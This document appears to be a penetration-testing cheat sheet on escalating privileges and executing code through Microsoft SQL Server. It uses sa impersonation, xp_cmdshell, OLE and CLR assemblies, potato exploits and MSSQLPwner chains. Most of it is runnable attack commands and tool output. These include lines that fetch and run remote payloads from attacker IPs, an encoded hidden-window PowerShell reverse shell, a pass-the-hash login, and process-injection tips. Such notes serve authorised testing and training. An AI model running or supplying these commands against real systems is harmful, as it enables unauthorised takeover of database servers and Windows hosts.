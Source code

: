 # Escalation by Impersonation

## PowerUpSQL
```powershell
Invoke-SQLAudit -Verbose -Instance DC01

# Individual check for who we can impersonate
Invoke-SQLAuditPrivImpersonateLogin -Verbose -Instance DC01

<#
VERBOSE: dc01 : START VULNERABILITY CHECK: PERMISSION - IMPERSONATE LOGIN
VERBOSE: dc01 : CONNECTION SUCCESS.
VERBOSE: dc01 : - Logins can be impersonated.
VERBOSE: dc01 : - BUILTIN\Users can impersonate the sa sysadmin login.
VERBOSE: dc01 : - EXPLOITING: Starting exploit process...
VERBOSE: dc01 : - EXPLOITING: Verified that the current user (CORP1\offsec) is NOT a sysadmin.
VERBOSE: dc01 : - EXPLOITING: Attempting to add the current user (CORP1\offsec) to the sysadmin role by impersonating sa...
VERBOSE: dc01 : - EXPLOITING: It was possible to make the current user (CORP1\offsec) a sysadmin!
VERBOSE: dc01 : COMPLETED VULNERABILITY CHECK: PERMISSION - IMPERSONATE LOGIN
#>

# Rerun and escalate
Invoke-SQLAuditPrivImpersonateLogin  -Verbose -Instance DC01 -Exploit
```

## SQLRecon
```powershell
# Enumerate who we can impesonate
.\SQLRecon.exe /a:WinToken /h:DC01 /m:impersonate

# Impersonate target user. (must be combined with a module)
.\SQLRecon.exe /a:WinToken /h:DC01 /m:impersonate /i:sa /m:whoami
.\SQLRecon.exe /a:WinToken /h:DC01 /m:impersonate /i:sa /m:enablexp
.\SQLRecon.exe /a:WinToken /h:DC01 /m:impersonate /i:sa /m:xpcmd /c:"whoami /all"
```


# Code Execution
## PowerUpSQL
```powershell
# xp_cmdshell
Invoke-SQLOSCmd -Verbose -Command "whoami" -Instance DC01 -RawResults

# CLR
Invoke-SQLOSCmdCLR -Verbose -Command "powershell.exe get-process" -Instance DC01 -RawResults

# OLE
Invoke-SQLOSCmdOle -Verbose -Command "powershell.exe -c whoami" -Instance DC01 -RawResults
```
## MSSQLClient
```bash
mssqlclient.py -dc-ip 192.168.210.5 corp1.com/offsec:lab@192.168.210.5 -windows-auth

# Enable xp_cmdshell
enable_xp_cmdshell

# Execute Commands
xp_cmdshell whoami /all
xp_cmdshell powershell.exe -c get-process
```
## SQLRecon
```powershell
# Enable xp_cmdshell and execute
.\SQLRecon.exe /a:WinToken /h:DC01 /m:enablexp
.\SQLRecon.exe /a:WinToken /h:DC01 /m:xpcmd /c:"whoami /all"

# Enable OLE and execute commands (No console output)
.\SQLRecon.exe /a:WinToken /h:DC01 /m:enableole
.\SQLRecon.exe /a:WinToken /h:DC01 /m:olecmd /c:"powershell.exe -c iex (iwr -usebasicparsing http://192.168.45.223/met.ps1)"
```

# Code Execution through CLR
When using shellcode runner / injection. Ensure to use techniques that create a seperate thread or execute in a new process otherwise it can cause issues when running a cleanup routine as the process hangs.
When using shellcode execution techniques through this method it is important to be aware of a few things.
- If using process injection we need to inject into a process the account we are impersonating has permissions to
- For example, if running under SA we cant inject into `explorer.exe` as the asscoiated account "SQL Telementry Service" would not have one
- We can instead inject into something like `sqlceip.exe`.

Otherwise for reliability the following techniques are more reliable:
- Shellcode runners
- Process Hollowing

## SQLRecon
.NET Library template for visual studio when performing CLR assembly execution
- https://gist.github.com/skahwah/c92a8ce41f529f40c14715c91b8f90ce

```powershell
# Enable CLR first
.\SQLRecon.exe /a:WinToken /h:DC01 /impersonate /i:sa /m:enableclr

# Execute .NET DLL
.\SQLRecon.exe /a:WinToken /h:DC01 /m:impersonate /i:sa /m:clr /dll:"C:\temp\Warhead.dll" /function:Main
.\SQLRecon.exe /a:WinToken /h:DC01 /m:impersonate /i:sa /m:clr /dll:"https://192.168.45.223/Warhead.dll" /function:Main
```

# MSSQL Service Account to SYSTEM
MSSQL service accounts are often configured with privileges that may allow privilege escalation to system. For example, the SeImpersonation privilege can often be abused by various potato based exploits to elevate to the local system account.

```powershell
# Using DeadPotato (Command Execution)
# https://github.com/lypd0/DeadPotato/releases
.\SQLRecon.exe /h:sql01.corp.com /a:wintoken /m:xpcmd /c:"powershell.exe -c iex (iwr -usebasicparsing http://192.168.45.197/Binaries/DeadPotato.exe -Outfile c:\windows\temp\o.exe); c:\windows\temp\o.exe -cmd whoami"

# Using Amnesiac (Obtain Reverse Shell)
# https://github.com/Leo4j/Amnesiac
.\SQLRecon.exe /h:sql01.corp.com /a:wintoken /m:xpcmd /c:"powershell.exe -c iex (iwr -usebasicparsing http://192.168.45.197/Binaries/DeadPotato.exe -Outfile c:\windows\temp\o.exe); c:\windows\temp\o.exe -cmd powershell.exe -NoLogo -NonInteractive -ep bypass -WindowS Hidden -enc JABzAGQAPQBOAG"
```
# Easy mode: MSSQLPwner
```bash
# Identify chains of escalation / execution
mssqlpwner -hashes ':9650a1367d69a0b4bd5c85823d48e478' 'domain.local/Computer01$'@172.16.122.223 -windows-auth interactive

# Identify chain to use for execution / escalation
MSSqlPwner#DB01 (domain.local\Computer01$@master/guest)> get-chain-list
[*] Chosen linked server: DB01
[*] Chain list:
[*] 3f163798-405a-4a51-a159-084aa944489a - DB01 (domain.local\Computer01$@master/guest) (domain.local\Computer01$ guest@master)
[*] d90e42d7-bac2-4930-9c2b-f435a96fdc3c - DB01 (domain.local\Computer01$>I:dev_int@master/guest) (dev_int guest@master)
[*] dfd60140-6176-4db3-aba3-91fb032abe26 - DB01 (domain.local\Computer01$>I:dev_int@master/guest) -> DB02 (dev_lab@master/guest) (dev_lab guest@master)
[*] 7473c5de-643a-400c-a2c8-487cf094745b - DB01 (domain.local\Computer01$>I:dev_int@master/guest) -> DB02 (dev_lab@master/guest) -> DB01 (sa@master/dbo) (sa dbo@master)
[*] ccfa50ce-2801-4028-a285-7cf20d7e5a4a - DB01 (domain.local\Computer01$>I:dev_int@master/guest) -> DB02 (dev_lab@master/guest) -> DB01 (sa>I:DB01\Administrator@master/dbo)
[*] eeca6fe8-d5eb-4103-8667-f3a6e47f9a95 - DB01 (domain.local\Computer01$>I:dev_int@master/guest) -> DB02 (dev_lab@master/guest) -> DB01 (sa@master/dbo) -> DB02 (sa@master/dbo) (sa dbo@master)
[*] 89bb3d7f-21f0-4630-a567-4699263ac544 - DB01 (domain.local\Computer01$>I:dev_int@master/guest) -> DB02 (dev_lab@master/guest) -> DB01 (sa@master/dbo) -> DB02 (sa>I:wordpress@master/dbo)
[*] e9db0f51-d9fa-436a-9c3f-30c9e31276e2 - DB01 (domain.local\Computer01$>I:dev_int@master/guest) -> DB02 (dev_lab@master/guest) -> DB01 (sa@master/dbo)


# Set chain by ID
set-chain 7473c5de-643a-400c-a2c8-487cf094745b

# Execute commands
MSSqlPwner#DB01 (domain.local\Computer01$>I:dev_int@master/guest) -> DB02 (dev_lab@master/guest) -> DB01 (sa>I:DB01\Administrator@master/dbo)> exec "powershell.exe -c get-process"
[*] Result: (Key: output) NULL
[*] Result: (Key: output) Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
[*] Result: (Key: output) -------  ------    -----      -----     ------     --  -- -----------                                                  
[*] Result: (Key: output)      74       5     3268       3700       0.02   2008   0 cmd                                                          
[*] Result: (Key: output)     135       8     6520      11256       0.02   4968   0 conhost                                                      
[*] Result: (Key: output)     493      18     2140       5372               384   0 csrss                                                        
[*] Result: (Key: output)     166      13     1632       4860               484   1 csrss                                                        
[*] Result: (Key: output)     256      14     3948      13676              2776   0 dllhost                                                      
[*] Result: (Key: output)     544      22    24016      49024               908   1 dwm                                                          
[*] Result: (Key: output)      48       6     1664       4832               736   1 fontdrvhost                                                  
[*] Result: (Key: output)      48       6     1520       4616               744   0 fontdrvhost                                                  
[*] Result: (Key: output)       0       0       56          8                 0   0 Idle                               
```
